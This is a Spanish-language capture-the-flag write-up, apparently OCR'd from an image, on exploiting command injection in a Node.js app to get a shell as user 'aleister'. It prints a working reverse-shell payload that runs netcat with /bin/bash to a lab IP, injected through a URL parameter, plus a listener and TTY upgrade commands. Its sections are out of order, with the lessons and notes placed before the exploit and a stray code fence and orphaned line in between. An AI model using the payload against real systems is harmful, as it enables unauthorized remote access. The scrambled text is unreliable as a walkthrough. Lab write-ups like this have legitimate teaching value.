 
## **Lecciones Aprendidas**
- Las aplicaciones Node.js pueden ser vulnerables a inyección si usan `child_process` sin sanitización
- Los parámetros de URL deben validarse siempre
- Los binarios con permisos sudo deben revisarse periódicamente
- La enumeración sistemática es crucial en penetration testing

## **Notas Adicionales**
⚠️ **Solo usar en entornos controlados y con autorización**
- Esta explotación requiere modificación de IPs según el entorno
- Las versiones específicas de software pueden afectar la explotación
- Siempre documentar y reportar vulnerabilidades encontradas
  ```
- No hay validación de entrada → Posible inyección

## **Explotación**

### 4. Reverse Shell con Node.js
**Payload utilizado**:
```javascript
require('child_process').exec('nc -e /bin/bash 10.0.2.4 9001')
```

**Inyección en URL**:
```
http://10.0.2.14:5000/?name)=prueba&token=require('child_process').exec('nc -e /bin/bash 10.0.2.4 9001')
```

### 5. Listener en Atacante
```bash
nc -lvnp 9001
```

## **Acceso Inicial**

### 6. Obtención de Shell
- Conexión reverse shell exitosa
- Usuario: `aleister`

### 7. Flag de Usuario
```bash
cd /home/aleister
cat user.txt
```
- **User Flag**: `[Redacted]`

### 8. Tratamiento de TTY
```bash
# Mejorar shell interactiva
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset
xterm
```
